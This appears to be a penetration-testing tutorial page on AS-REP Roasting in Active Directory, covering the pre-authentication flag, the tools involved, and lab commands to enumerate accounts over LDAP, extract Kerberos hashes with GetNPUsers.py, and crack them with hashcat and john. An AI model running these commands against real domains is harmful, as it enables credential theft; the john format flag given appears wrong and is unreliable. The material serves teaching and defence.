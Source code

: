 # AS-REP Roast

## Attack Description

AS-REP Roasting is an attack against Kerberos that targets user accounts that do not require Kerberos pre-authentication. The flag 'UF\_DONT\_REQUIRE\_PREAUTH' , is found in the user's properties under the 'userAccountControl' attribute. This attribute is normally displayed as a decimal or hexidecimal value, which is calculated based on the sum of the values for the required flags.

For example, a user may have the following setting, which equals a decimal value of '4260352':

userAccountControl 0x410200 = (NORMAL\_ACCOUNT | __ DONT\_EXPIRE\_PASSWORD | DONT\_REQUIRE\_PREAUTH)

> FLAG                                       HEX               DECIMAL\
> NORMAL\_ACCOUNT             0x0200         512\
> DONT\_EXPIRE\_PASSWORD   0x10000       65536\
> DONT\_REQ\_PREAUTH           0x400000    4194304\
> \
> 512+65536+4194304=4260352

Below is a diagram which shows the Kerberos authentication process. What is important to note is that the AS-REP packet is a response to the AS-REQ packet, and so if the 'DONT\_REQUIRE\_PREAUTH' flag is enabled, anyone can send an AS-REQ packet and retrieve the TGT hash for the specified account.

![Source: https://adsecurity.org/?p=1667](../../.gitbook/assets/kerberos\_tickets1.JPG)

## Attack tools

The list of tools below contains some of the tools that can be used for this attack. Note that some of the listed tools do the same thing, and so it's down to user preference as to which tools are used. In order to complete this attack, we need to do the following, and so any tool that can assist with providing the following functionality can be used:

* Query AD and extract data including user account information
* Find an account (user, service) which has the 'DONT\_REQUIRE\_PREAUTH' flag enabled
* Extract the TGT hash for the account
* Crack the hash

### Tools:

ldapsearch --> opens a connection to a LDAP server, binds, and performs a search using specified parameters

windapsearch --> enumerate users, groups and computers from a Windows domain through LDAP queries (based on ldapsearch, but contains built in LDAP queries via options)

GetNPUsers.py (Impacket) --> queries AD for TGTs for those users that have the property ‘Do not require Kerberos preauthentication’ set (UF\_DONT\_REQUIRE\_PREAUTH)

hashcat --> crack the hash

john --> crack the hash

## Attack Example

### Discovery

First, we need to determine if we are able to query the target directory server using LDAP as an anonymous user. If successful, we can query the directory database anonymously.&#x20;

> NOTE: Being able to query the database anonymously is NOT a requirement, it can also be done with a valid domain user account. The important thing to note is that in order for this attack to succeed, we need to be able to query the database.

Using ldapsearch:

```
ldapsearch -h 10.99.99.101 -p 389 -x -b "dc=testdomain,dc=local"
```

Using windapsearch:

```
windapsearch.py --dc-ip 10.99.99.101
```

Next, we need to query the directory for accounts that have the 'DONT\_REQUIRE\_PREAUTH' flag enabled:

Using GetNPUsers.py (Impacket):

```
GetNPUsers.py testdomain.local/ -dc-ip 10.99.99.101
```

### Exploit

Once we have found an account with the 'DONT\_REQUIRE\_PREAUTH' flag enabled, we can extract the TGT hash for the account. To do this, we can use GetNPUsers.py from Impacket.

```
GetNPUsers.py testdomain.local/username -dc-ip 10.99.99.101 -format hashcat -outputfile tgt.hashcat
GetNPUsers.py testdomain.local/username -dc-ip 10.99.99.101 -format john -outputfile tgt.john
```

Finally, all that is left to do is to crack the hash:

Using hashcat:

```
hashcat -m 18200 --force tgt.hashcat /usr/share/wordlists/rockyou.txt 
```

Using john:

```
john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt tgt.john
```



## References

{% embed url="https://attack.mitre.org/techniques/T1558/004" %}

{% embed url="https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties" %}

{% embed url="http://www.selfadsi.org/ads-attributes/user-userAccountControl.htm" %}

{% embed url="https://techcommunity.microsoft.com/t5/security-compliance-and-identity/helping-protect-against-as-rep-roasting-with-microsoft-defender/ba-p/2244089" %}

{% embed url="https://www.harmj0y.net/blog/activedirectory/roasting-as-reps" %}

{% embed url="https://github.com/ropnop/windapsearch" %}

{% embed url="https://linux.die.net/man/1/ldapsearch" %}

{% embed url="https://github.com/SecureAuthCorp/impacket" %}
